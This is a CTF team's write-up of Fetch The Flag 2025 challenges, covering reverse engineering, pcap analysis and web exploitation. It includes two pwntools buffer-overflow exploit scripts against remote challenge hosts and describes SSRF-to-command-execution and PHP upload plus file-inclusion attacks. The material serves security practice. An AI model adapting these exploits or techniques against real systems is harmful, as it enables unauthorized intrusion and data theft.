



# Fetch The Flag 2025

I'd say that for a few hours of work this CTF was worth it and is was a great opportunity to practice a little bit more your skills. In the end we go a honorable 96th place out of 916 teams that were registered for this competition.

## An Offset Amongst Friends

A binary challenge that was asking for a password in order to give away the flag. While searching through the decompiled functions in Ghidra. We've seen that in order to get the flag we were supposed to bypass a password check. While debugging the program in gdb we identified the password as `unlock_me_123` and got the flag.

<div style="text-align: center;">
    
</div>

## letters2nums

Looking through the decompiled code we realised that the binary is basically reading the flag in the main function using the function `readFlag` and then writing it in an encrypted format using `writeFlag`. After doing some debug in gdb we concluded that only `writeFlag` and `encodeChars` are of interests for us.

```C
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined local_148 [48];
  undefined local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  readFlag("flag.txt",local_148);
  c("This is a long and convoluded way to try and hide the flag:",local_148);
  writeFlag("encflag.txt",local_118);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

`writeFlag` is iterating over the flag and encodes 2 chars at a time using `encodeChars` and then writing the output number in a file.

```C
undefined8 writeFlag(char *param_1,long param_2)

{
  short sVar1;
  int iVar2;
  FILE *__stream;
  int local_18;
  
  __stream = fopen(param_1,"w");
  iVar2 = sl(param_2,0);
  if (__stream == (FILE *)0x0) {
    puts("Error opening file.");
  }
  else {
    for (local_18 = 0; local_18 < iVar2; local_18 = local_18 + 2) {
      sVar1 = encodeChars((int)*(char *)(param_2 + local_18),
                          (int)*(char *)(param_2 + (long)local_18 + 1));
      fprintf(__stream,"%d\n",(ulong)(uint)(int)sVar1);
    }
    fclose(__stream);
  }
  return 0;
}
```

While checking the conding schema we've seen that the characters are encoded in a 2 byte integer the higher 8 bits are the first character and the lower 8 bits are the second character. Knowing this we crafted a python script to decrypt the flag.

```C
uint encodeChars(char param_1,char param_2)

{
  return CONCAT22(param_1 >> 7,(short)param_2) | (int)param_1 << 8;
}
```

## math4me

We were given a binary that was asking for a special number while checking the decompiled code in Ghidra we've seen that in order to retrieve the flag we had to provide to `check_number` a number that would satisfy a certain condition.

```C
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  undefined4 local_50;
  int local_4c;
  undefined local_48;
  undefined local_47;
  undefined local_46;
  undefined local_45;
  undefined local_44;
  undefined local_23;
  undefined local_22;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("Welcome to the Math Challenge!");
  printf("Find the special number: ");
  __isoc99_scanf(&DAT_00102049,&local_50);
  local_48 = 0x66;
  local_47 = 0x6c;
  local_46 = 0x61;
  local_45 = 0x67;
  local_44 = 0x7b;
  iVar1 = check_number(local_50);
  if (iVar1 == 0) {
    puts("That\'s not the special number. Try again!");
  }
  else {
    for (local_4c = 5; local_4c < 0x25; local_4c = local_4c + 1) {
      compute_flag_char(&local_48,local_4c,local_50);
    }
    local_23 = 0x7d;
    local_22 = 0;
    printf("Congratulations! Here\'s your flag: %s\n",&local_48);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Knowing that our input must satisfy the following condition we reversed `param_1` so that we will get the flag.

```C
bool check_number(int param_1)

{
  return (param_1 * 5 + 4) / 2 == 0x34;
}
```

Bellow you can find the flag.

<div style="text-align: center;">
    
</div>

## freeRangePackets

We were provided a `.pcapng` file containing a capture of of data transferred over Bluetooth. While checking the data in pacap we've seen that that the `l2cap` packages were displaying characters that were part of the flag.

<div style="text-align: center;">
    
</div>

We created a scrupt to extract those from the traffic capture:

```python
from scapy.all import rdpcap, Raw
from scapy.layers.bluetooth import L2CAP_Hdr

pcap_file = "freeRangePackets.pcapng"
packets = rdpcap(pcap_file)

with open("extracted_l2cap_data.bin", "wb") as f:
    for pkt in packets:
        # Check if the packet contains L2CAP
        if pkt.haslayer(L2CAP_Hdr):
            l2cap_layer = pkt.getlayer(L2CAP_Hdr)
            
            # Extract raw data (ignores control packets)
            if pkt.haslayer(Raw):
                data = pkt[Raw].load  # Extract payload bytes
                print(f"L2CAP Data: {data}")
                
                # Save raw bytes to file
                f.write(data)

print("Extraction complete! Saved to extracted_l2cap_data.bin")
```

Then we used the `strings` command to extract the chars in combination with sed and we got the flag.

<div style="text-align: center;">
    
</div>

## echo

This binary was a simple pwn that was asking as to call the `win` function using a buffer overflow payload. Checking the `main` functions code in ghidra we've seen that it is calling the `gets` which is considered dangerous.

<div style="text-align: center;">
    
</div>

Checking the win function we've seen that this function is basically reading the flag from a file.

<div style="text-align: center;">
    
</div>

We identified a the location of the buffer in gdb so that we can craft the payload afterwards.

<div style="text-align: center;">
    
</div>

Bellow you can find our script that is delivering the payload to the remote binary.

```python
from pwn import *

context.binary = './echo'
context.log_level = 'debug'

r = remote('challenge.ctf.games', 31084)

win_address = 0x401216
buffer_size = 0x88

payload = b'A' * buffer_size
payload += p64(win_address)

r.sendline(payload)

r.interactive()
```

After running the script we got the flag leaked.

<div style="text-align: center;">
    
</div>

## Additional Information Needed

This challenge was actually quite similar with `echo` with some few differences. It required the hacker to provide the arguments of the function that had to be called in order to leak the flag. We analysed initially the main function and we've seen the `gets` call.

<div style="text-align: center;">
    
</div>

Checking the `getFlag` function we've seen that the product between the parameters needs to be `0x23`.

<div style="text-align: center;">
    
</div>

We adapted the script from `echo` so that besides the address of the function that had to be called we would also provide the 2 parameters.

```python
from pwn import *

context.binary = './challenge.elf'
context.log_level = 'debug'

r = remote('challenge.ctf.games', 31314)

response = r.recvline()
print(response)
response = r.recvline()
print(response)

getflag_address = 0x8049214
buffer_size = 0x28

payload = b'A' * buffer_size
payload += p32(getflag_address)
payload += b'B' * 4
payload += p32(0x23)
payload += p32(0x01)
print(payload)

r.sendline(payload)

r.interactive()
```

Executing the payload we got the flag.

<div style="text-align: center;">
    
</div>

## A Powerful Shell

We were given a `.ps1` script that we had to analyze.

<div style="text-align: center;">
    
</div>

We used `base64dump.py` script from our REMNUX machine to analyze the `base64` strings and got the flag.

<div style="text-align: center;">
    
</div>

## crabshell

We were given a binary written in rust that was reading a line from us and if the input was satisfying a set of conditions that can be seen bellow it would  make the binary file retrieve the flag. Bellow you can see the conditions.

<div style="text-align: center;">
    
</div>

We tooke the bytes fromt the compound conditional and then created a python script that wrote those hex values as bytes in a file which we then feed into the binary and got the flag.

<div style="text-align: center;">
    
</div>

## Either-or

We were given a binary that was asking for a secret word in order to provide us the flag.

<div style="text-align: center;">
    
</div>

Checking the decompiled code we've seen that the flag was being provided after the secret word was checked with `strcmp`.

<div style="text-align: center;">
    
</div>

What we did was to change the register value after the `strcmp` call and leak the flag.

<div style="text-align: center;">
    
</div>

## ItsGoTime

This was quite an interesting one. We were being provided with a go binary that was requiring a secret code in order to provide the flag. The idea was that you had to provide a 16 byte and its bytes were being processed by multiple go routines that made the process a little bit difficult. Analyzing the routine implemented by a go routine we've seen that each of them was receiving an index which was the index of the charater those had to process. In order to check the key the goroutine were loading from a certain address a slice of bytes to be checked against the input. Basically our input was negated and compared with a byte from the slice that was xored with `0x42`. We computed the expected input and then created binary input file that helped us leak the flag.

<div style="text-align: center;">
    
</div>

## String Me Along

We are provided a binary that is asking for a password. Using the `strings` command we've seen a string `unlock_me_123`. Which we assumed it could be the password requested by the binary and leaked the flag.

<div style="text-align: center;">
    
</div>
<div style="text-align: center;">
    
</div>

## Unfurl

We had to analyze a site that was fetching pages from the internet. While searching through the source code that we were provided we've seen that there is and admin page that could only be requested from the localhost. At the same time the the admin webpage had a route that was leveraging execution of linux commands on the hosts on the route `/execute`. We used `fuff` to enumerate the ports in the search of the web admin page and then leaked the command through the execution route.

<div style="text-align: center;">
    
</div>
<div style="text-align: center;">
    
</div>

## Who is JH

This was a nice challenge that combined multiple elements in order to leak the flag first of all you had to abuse. First of all you were allowed to upload evidence on JH (John Hammond) and you had to bypass a couple of checks in order to upload a php script that could help you leak the flag. You also had to take into account the fact that the some php function like `system` were disabled on the host. Therefor we sticked to a `file_get_contents` in order to leak the flag.

<div style="text-align: center;">
    
</div>

Another proble was the fact that the file was stored in the `uploads` directory with an unique name. Fortunately for us the site was supporting multiple languages and in order to fetch content in a specific language it was using a query parameter that was accessing files on the system. We leveraged that in order to leak the logs from the webserver.

<div style="text-align: center;">
    
</div>

And the we identified our payload and leaked the flag through the same method we leaked the logs.

<div style="text-align: center;">
    
</div>